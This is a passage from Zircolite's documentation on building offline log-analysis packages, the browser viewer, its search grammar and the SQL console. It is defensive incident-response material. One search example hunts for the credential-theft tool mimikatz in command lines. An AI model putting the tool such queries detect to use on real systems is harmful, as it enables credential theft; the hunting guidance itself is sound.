python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json \
    --package --package-dir /cases/host1
```

`--package` (`-G`) writes `zircolite-package-<RAND>.zip` to the working directory, or to
`--package-dir`, which must already exist. In a [YAML run configuration](Usage.md#yaml-configuration)
the keys are `package` and `package_dir`, under `output`.

- **Every event is kept.** [Early event filtering](#early-event-filtering) is turned off for
  the run, and the log says so: `Event filtering disabled: --package keeps every event`.
  The time filters (`--after`, `--before`) and the file filters still apply, and they are how
  to make a smaller package.
- **The package is written even when no rule matched.** The detections output and any
  template output are written as usual beside it.
- **Problems surface before the run.** Zircolite checks that `--package-dir` exists, that the
  viewer in `gui/viewer/` is complete and that the installed duckdb has JSON and Parquet
  support built in, before it reads a single log. Packages are built where logs are analysed,
  often offline, so duckdb is never allowed to download that support.
- **A package is whole or absent.** The zip is assembled in a `tmp-zircolite-package-*`
  directory inside the destination and moved into place once complete. If it cannot be
  written, the run says why and exits with status 1, after writing its detections output.
- **The command line is not recorded.** The package keeps the settings that shape what it
  shows (processing mode, time field, time bounds, `--limit`, the number of rules loaded),
  never the command line, so an archive password cannot end up in it. A `--limit`, and time
  bounds other than the defaults, are listed among the run warnings in Run details and on
  Overview, so whoever opens the package knows which rules and events the run left out.

The browser holds the events in WebAssembly memory, which stops at 4 GB. Zircolite therefore
refuses to write a package whose events take more than 1 GiB as Parquet, with an error that
gives their size and advises narrowing the run with `--after`/`--before` or `-s`. The
full-text index that speeds up bare-word searches has its own 1 GiB limit: above it the
package is written without the index, Run details lists a warning saying so, and a bare-word
search scans every field instead, which takes longer.

### Who should see a package

A package holds every event of the run: account names, host names, command lines, IP
addresses, file paths and whatever else the logs recorded. Treat it as you would the logs
themselves. Share it only with people allowed to read them, and store it where you would store
them. The `README.txt` inside the zip says the same.

### Opening a package

1. Extract the whole zip.
2. Open `index.html` from the extracted folder in a web browser; double-clicking it usually
   does.

A browser cannot open the page from inside the zip, because the page loads the files beside
it. If they are missing, it says to extract the whole archive.

While it loads, the page shows how many events and inputs the package holds, then a progress
bar while the data arrives and the query engine starts. Before showing anything, it checks
that the engine's files and the tables arrived whole, every chunk present and decoding and
each file at the size the manifest lists, and that the engine holds exactly the events and
rule matches the package lists. A package with missing or truncated files is reported as such
instead of shown incomplete, and so is data in a package format this viewer does not read.
These checks are counts and sizes, not checksums: the viewer does not verify the SHA-256
digests in the manifest, so a file altered without a change of size shows only if the query
engine fails to read it.

The top bar holds the search box, **Syntax** (the search help), **Run details** and the theme
(Auto, Light or Dark). **Run details** shows the run summary: the events and inputs, the time
range, the rules that matched out of those loaded, the rule matches, the events with
detections, the correlation alerts, the processing mode, the time field, whether full-text
search is indexed, the event filtering state, and the Zircolite version that made the package
and when. Below come the run's warnings, such as a `--limit` and its effect, the time bounds
of a run narrowed with `--after`/`--before`, events whose time could not be read (kept, but
left off the timeline), inputs read only in part, inputs that failed, matches of custom SQL
rules that name no event, and a missing full-text index. The button shows how many
warnings there are.

All times are UTC.

The search, the time range and **Detections only** (events that at least one rule matched)
apply to every view, except where a view says otherwise. They live in the page's address,
with the current view, the table columns and the open event, so **Back** steps through an
investigation and a bookmark reopens it. Each active filter is a chip under the search box;
its × removes it.

A search that reads every field of a large package can take a while. **Stop**, shown while
Explore or the SQL console is busy, stops every query of the page. Each panel then says
**Stopped**, and **Run again** runs them all again.

Keys: `/` goes to the search box, `?` opens the search help, `Esc` closes what is on top,
`j` and `k` move through the events in Explore, and `Enter` opens one.

**The event drawer.** Clicking an event anywhere (a row in Explore, a mark on the timeline, a
process, an alert's evidence) opens it in a drawer. At 1,400 px wide and above the drawer
stands beside the view; on a narrower window it covers part of it. It lists the rules that
matched the event, each with **Filter by this rule**, then the fields grouped as System, User,
Process, Network, File and registry, and Other. Each value has + (filter for it), − (filter it
out) and **Copy**. **Show JSON** and **Copy JSON** give the whole event, and **Events on
_host_ within 5 minutes** replaces the search with that host and sets the time range to five
minutes either side of the event.

### The views

The navigation rail switches between eight views.

#### Overview

- **Severity tiles**: the events whose highest detection is at each level, and how many rules
  that covers. An **Unknown level** tile, in a colour of its own, appears when some events were
  detected only by rules whose level is none of Sigma's. A tile opens Explore with
  `level:<level>` (`level:<informational` for the unknown level).
- **The histogram**: events above the line, detections below it, coloured by level. Drag across
  it, or move with the arrow keys, hold Shift and press `Enter`, to select a time range: the
  histogram zooms into it and every view follows. Clicking one bar selects its span; `Esc`
  clears the range.
- **ATT&CK tactics**: events with detections under each tactic. A cell opens Explore with
  `tactic:`.
- **Top rules**, **Top hosts** and **Top users**: the ten rules, and the eight hosts and
  users, with the most events. The heading names the field the hosts and users come from.
  Each entry opens Explore filtered to it.
- **Run warnings**, and the event filtering state.

#### Detections



The rules that matched, grouped by level from critical down, each with the events it matched
under the current filters. Entries of one rule (one Sigma id, or one title when there is no
id) are one row, counted once and placed at the highest level among them. An event matched by
rules at several levels counts once in each level's section. **Show _N_ rules without events
here** lists the matched rules the filters leave empty.

A row opens to show the description, false positives, techniques, tags, rule id and each
ruleset entry with its level, Sigma file and events. **Show events** opens Explore with
`rulekey:`; **Add to search** adds the same term to the search and stays here.

A correlation rule also lists its alerts, for the whole package: the filters do not apply to
them. The first 200 are listed by time, each with its group keys, metric and event count. An
alert opens to show its window and its evidence events (the first 500); clicking one opens it
in the drawer.

#### Explore

Every event that matches the filters, in a table.

- **The histogram** works as in Overview.
- **Fields**: every field, with the share of the package's events that carry it, and a box to
  find one by name. A field opens to show its ten most frequent values among the results, grouped
  ignoring case, each with + and − to filter for it or leave it out, and **Show as column**.
- **The table**: time, level (the event's highest detection) and six fields by default, or the
  columns you chose. It is sorted by time; click the **Time (UTC)** header to reverse it.
  Events without a time come last. Scrolling reaches every result, however many.
- **Detections only** keeps the events at least one rule matched.
- **Export CSV** writes the shown columns, one row per event, for up to 500,000 events, as
  UTF-8 with a byte-order mark. A cell that could run as a formula, because it starts with `=`, `+`, `-`, `@`, a tab or a
  carriage return, gets a leading `'` so spreadsheets read it as text; a plain number in a
  numeric column is left as it is. **Export JSON** writes every field of every event, one JSON
  object per line, for up to 100,000 events. Either export stops if its text would pass
  400 MB. An export takes the results as they were when you pressed it.

#### Timeline

Detections over time, one lane per ATT&CK tactic in the order of the attack, and a last lane
for rules that name no tactic. A mark holds the events detected under one tactic within a few
pixels of time, coloured by their highest level. `Ctrl` or `⌘` with the mouse wheel zooms,
dragging moves; with the keyboard, the arrow keys move, `+` and `-` zoom and `0` shows
everything. Once you stop moving, the window becomes the page's time range.

Clicking a mark opens its earliest event and describes the mark. When the mark holds several
events under a tactic, **Show these _N_ in Explore** lists exactly them. **List the marks**
gives the same marks as text, the first 500 of them. Detections without a time cannot be
placed; the view says how many there are.

#### ATT&CK



The ATT&CK matrix: tactics as columns and techniques under them, shaded by events with
detections. **Detected techniques** shows the techniques with detections, **Full matrix**
every technique. A technique under several tactics shows the same count in each, and a
technique counts the events of its sub-techniques, which open beneath it. A tactic or
technique opens Explore with `tactic:` or `technique:`.

Tags that the bundled catalogue does not list are not placed by guess or dropped: a table lists
them, each with its replacement, **Retired** or **Unknown**, and its events. See
[the ATT&CK catalogue](#the-attck-catalogue).

**When detections happen (UTC)** is a weekday by hour heatmap of the events with detections.
A cell opens Explore with `weekday:` and `hour:` for that hour, and turns on **Detections only**.

#### Entities

Hosts, users, IP addresses, processes, hashes and domains among the filtered events, read from
these fields, whichever the package has as text:

| Kind | Fields |
|------|--------|
| Hosts | `Computer`, `ComputerName`, `Hostname`, `host` |
| Users | `TargetUserName`, `SubjectUserName`, `User`, `UserName`, `AccountName` |
| IP addresses | `SourceIp`, `DestinationIp`, `IpAddress`, `SourceAddress`, `DestAddress`, `ClientAddress` |
| Processes | `Image`, `NewProcessName`, `ParentImage`, `ProcessName` |
| Hashes | `SHA256`, `SHA1`, `MD5`, `IMPHASH` |
| Domains | `QueryName`, `DestinationHostname` |

Values are grouped ignoring case, and an event counts once per value. Each row gives the events,
the events with detections, and the first and last time seen; the table sorts by any of them.
It shows 500 rows at most and says so; the **Filter values** box finds the others. A value
opens Explore with the events that hold it in any of those fields.

#### Processes



Process starts as a tree: Sysmon event 1, from Windows or Sysmon for Linux, and Security event
4688, among the filtered events. Each row gives the image, the command line, the PID, the user,
the host, the start time and the highest detection with the number of rules that matched.
A process whose parent is not in the tree says what started it, by image or PID.

- The tree shows the first 20,000 starts under the filters, earliest first, and says when
  there are more.
- The starts above them are added for context, in grey: up to 5,000 ancestors, nearest first,
  with a note when that limit is reached. A search that keeps only `whoami.exe` still shows
  the shell that started it.
- A chain is followed up to 64 generations; when chains stop there, the view says how many.
- A small tree opens whole and a large one at its roots; **Expand all** and **Collapse all**
  change that. Arrow keys move and open, `Enter` opens the event.
- **Events of this process** opens Explore with the process's `ProcessGuid`.

How a start finds its parent is described in [how the process tree links](#how-the-process-tree-links).

#### SQL

A console for one SELECT at a time over the package's tables. `Ctrl` or `⌘` with `Enter` runs the query,
**Tables** lists the tables and their columns, a click inserts a name, and **Export CSV**
saves the rows shown. The console does not apply the page's filters. Its limits are in
[the SQL console](#the-sql-console).

### Search grammar

The search box takes field terms, bare words and shortcuts. **Syntax** shows this help in the
viewer, from the same tables the search uses.

| Search | Meaning |
|--------|---------|
| `powershell` | Any field contains the word, in any case. |
| `"net user"` | Any field contains the phrase. |
| `EventID:4624` | A field equals a value, in any case. |
| `Image:*\cmd.exe` | `*` matches any characters, outside quotes. |
| `EventID:>4600` | Numeric fields compare with `>`, `>=`, `<` and `<=`. |
| `-Channel:Security` | Leave matches out. Events without the field stay in. |
| `a OR b` | Either term. Terms side by side must both match. |
| `(a OR b) c` | Parentheses group terms. |
| `"level":error` | Quote a field name to search a log field that shares a shortcut's name. |

| Shortcut | Example | Matches |
|----------|---------|---------|
| `rule:` | `rule:*powershell*` | Events a rule matched, by title or id. `*` matches any characters. |
| `rulekey:` | `rulekey:"Encoded PowerShell"` | Events of one rule as Detections groups them: its id, or its title when it has none. |
| `level:` | `level:>=high` | Events whose highest detection has this level. `>=`, `>`, `<=` and `<` compare levels. |
| `tactic:` | `tactic:persistence` | Events detected under an ATT&CK tactic, named as in `privilege-escalation` or `"Privilege Escalation"`. `*` matches any characters. |
| `technique:` | `technique:T1059` | Events detected under an ATT&CK technique, sub-techniques included. |
| `weekday:` | `weekday:sat` | Events on a weekday, in UTC: `monday` or `mon`, or `1` (Monday) to `7` (Sunday). |
| `hour:` | `hour:>=22` | Events in an hour of the day, in UTC, 0 to 23. `>=`, `>`, `<=` and `<` compare hours. |
| `host:` | `host:DC01` | Events from a host, whichever field holds its name: `Computer`, `ComputerName`, `Hostname` or `host`. |
| `user:` | `user:administrator` | Events naming an account, whichever field holds it: `TargetUserName`, `SubjectUserName`, `User`, `UserName` or `AccountName`. |

- **Field names** ignore case, and an unknown one is refused with the nearest names the
  package has. A value may hold colons, so paths, times and IPv6 addresses need no quotes.
- **Shortcuts win over fields of the same name.** To search a log field called `level`,
  `rule` or `host`, quote its name: `"level":error`.
- **Levels** run `informational`, `low`, `medium`, `high`, `critical`. Events detected only by
  rules without a Sigma level match `level:<informational`.
- **Tactics** must be ones the package lists; a name it does not know is refused with the
  list. `tactic:defense-evasion` searches `stealth`.
- **Negation is NULL-safe**: `-Channel:Security` keeps the events that have no `Channel` field
  at all, as well as those whose channel is something else.
- **Quotes**: inside quotes, `\"` is a quote and `\\` a backslash; any other backslash is
  itself, so Windows paths are typed as they are. Outside quotes, `*` is a wildcard; inside,
  it is a star.
- **Bare words search every field.** Once the package's full-text index has loaded, in the
  background after the page opens, they read the index; a search typed before that waits for
  it. Without an index, or if it fails to load, a bare word scans every column of every event.
  On a package of more than 200,000 events the search bar warns that this can take a while; a
  field search such as `CommandLine:*mimikatz*` is much faster.
- The search box suggests field names, and values of the field being typed.

A search that does not parse is not applied: the search bar gives the reason and the
character where the problem starts. One that reaches the page through a link and does not
parse matches nothing, never everything.

### The SQL console

The SQL view runs one query at a time over five tables:

| Table | One row per | Columns |
|-------|-------------|---------|
| `events` | event | `_zl_uid` (the event's id), `_zl_part`, `_zl_time` (the event's time as a UTC timestamp; NULL when it has none or it could not be read), `_zl_spelling`, then every field of the run |
| `rules` | ruleset entry that matched | `rule_idx`, `key`, `id`, `title`, `level`, `level_rank`, `description`, `falsepositives`, `tags`, `tactics`, `techniques`, `sigmafile`, `result_type`, `count`, `linked`, `unlinked`, `alert_count`, `event_count` |
| `hits` | rule and event it matched | `rule_idx`, `_zl_uid` |
| `alerts` | correlation alert | `alert_idx`, `rule_idx`, `_zl_part`, `alert_id`, `group_keys`, `occurrence_time`, `window_start`, `window_end`, `metric_name`, `metric_value`, `event_count`, `child_alert_ids` |
| `alert_events` | evidence event of an alert | `alert_idx`, `_zl_uid`, `ord` |

Two examples, to run one at a time:

```sql
-- Hosts by events with detections
SELECT Computer, count(*) AS events, count(h._zl_uid) AS detected
FROM events e LEFT JOIN (SELECT DISTINCT _zl_uid FROM hits) h USING (_zl_uid)
GROUP BY Computer ORDER BY detected DESC

-- The events of rules about PowerShell, earliest first
SELECT e._zl_time, r.title, e.Computer, e.CommandLine
FROM hits h JOIN rules r USING (rule_idx) JOIN events e USING (_zl_uid)
WHERE r.title ILIKE '%powershell%'
ORDER BY e._zl_time
```

- **One query.** The text must be a single SELECT, including its `WITH`, `VALUES` and
  FROM-first forms, or a `DESCRIBE` or `SHOW`. Anything else is refused: two statements,
  `CREATE`, `INSERT`, `DROP`, `ATTACH`, `COPY`, `SET`, `PRAGMA`, `EXPLAIN`, and a `PIVOT`
  without its `IN` list. A trailing semicolon is fine.
- **Everything comes back as text**, so 64-bit integers stay exact.
- **At most 10,000 rows are shown**; the console says when there are more. Narrow the query with a
  `WHERE`, or aggregate, to see the rest. **Export CSV** saves the rows shown.
- **The package's tables cannot change.** A SELECT can still call DuckDB's logging and
  checkpoint functions, which change this browser session's logging and in-memory files, never
  the tables. The console switches logging back off after each query when it can. Reloading the
  page restores everything.
- The search, the time range and **Detections only** do not apply here; write them in SQL.
  The text you type is kept while you visit other views, but not across a reload.

### The ATT&CK catalogue

The viewer names techniques and places them under tactics with a bundled catalogue of MITRE
ATT&CK Enterprise, version 19.2. Sigma tags carry only IDs, and a rule lists its tactics and
techniques separately, so the placement cannot come from the rules. MITRE's copyright notice
and terms of use travel in every package, in `THIRD_PARTY_NOTICES.txt`.

A tag the catalogue does not list as an active technique is shown apart, never dropped:

- a **revoked** technique, with the technique that replaced it;
- a **retired** one, which has no replacement;
- an **unknown** one, which the catalogue does not name at all.

To move to a newer ATT&CK release, download MITRE's Enterprise ATT&CK STIX bundle
(`enterprise-attack-X.Y.json`) and, in `gui_src/`, run:

```shell
node scripts/attack-catalog.mjs enterprise-attack-X.Y.json
```

It writes `src/attack/catalog.json`. Then refresh `scripts/attack-terms.txt` by hand from
MITRE's [terms of use](https://attack.mitre.org/resources/legal-and-branding/terms-of-use/):
the build copies it into the notices. Rebuild the viewer and commit both.

### How the process tree links

Each process start is linked to its parent among every start in the package, not only those
the filters keep, so a filter never changes who started what:

1. **By ProcessGuid.** A start that names a `ParentProcessGuid` links to the start whose
   `ProcessGuid` it is; a GUID logged twice names its first start. A start that names a parent
   GUID is linked that way only: when no start carries the GUID, it is a root rather than a
   guess.
2. **Otherwise by PID.** The parent is the latest start of the parent PID on the same host, at
   or before the child's start. PIDs come back after a process ends, so the latest earlier one
   is the one that was running. The parent PID is `ParentProcessId` in Sysmon and `ProcessId`
   in event 4688; hexadecimal PIDs are read as numbers, and hosts compare ignoring case.

Ancestors outside the filters are drawn in grey. A start whose parent never started in these
logs is a root, labelled with the parent's image or PID.

### For developers

- The viewer's sources are in `gui_src/`: Svelte, TypeScript and Vite over DuckDB-WASM. The
  build in `gui/viewer/` is committed, and it is what `--package` copies into every package.
  `task gui-build` runs `npm ci`, `npm run check`, `npm test` and `npm run build` there.
  Commit `gui/viewer/` with any change to `gui_src/`.
- CI rebuilds the viewer and fails when the result differs from the committed `gui/viewer/`
  by a single byte or a new file, including one that `.gitignore` matches.
- The scripts in `gui_src/e2e/` drive an extracted package from `file://`, each taking its
  directory: `npm run smoke -- <dir>` (it opens in Chromium, Firefox and WebKit, with the
  events the manifest lists, no network request and no page error), `npm run e2e -- <dir>`
  (cross-checks Explore in all three), `npm run views -- <dir>` (cross-checks every view and
  full-text search in all three), `npm run perf -- <dir>` (times Explore in Chromium) and
  `npm run shot -- <dir> <out.png>` (a screenshot). They need the Playwright browsers:
  `npx playwright install chromium firefox webkit`. CI runs smoke, e2e and views on a package
  built from EVTX-ATTACK-SAMPLES.
- [Internals → Package pipeline](Internals.md#package-pipeline) describes how a package is
  written and how the viewer reads it.

## Other Tools

The repository ships a few scripts of its own in `tools/`, documented in
[`tools/README.md`](https://github.com/wagga40/Zircolite/tree/master/tools):
`sigma-regression.py` runs the SigmaHQ regression suite against a ruleset,
`throughput-benchmark.py` compares complete Zircolite runs across settings or checkouts,
and `tool-benchmark.py` times Zircolite against Hayabusa and Chainsaw on the same logs (see
[Benchmark](Benchmark.md)). `package-release.py` and `install-win-arm64.py` build the
release packages.

Zircolite is also driven by third-party tooling:

- [KAPE](https://www.kroll.com/en/services/cyber-risk/incident-response-litigation-support/kroll-artifact-parser-extractor-kape)
  has a [module](https://github.com/EricZimmerman/KapeFiles/tree/master/Modules/Apps/GitHub).
- [Velociraptor](https://github.com/Velocidex/velociraptor) has an
  [artifact](https://docs.velociraptor.app/exchange/artifacts/pages/windows.eventlogs.zircolite/).
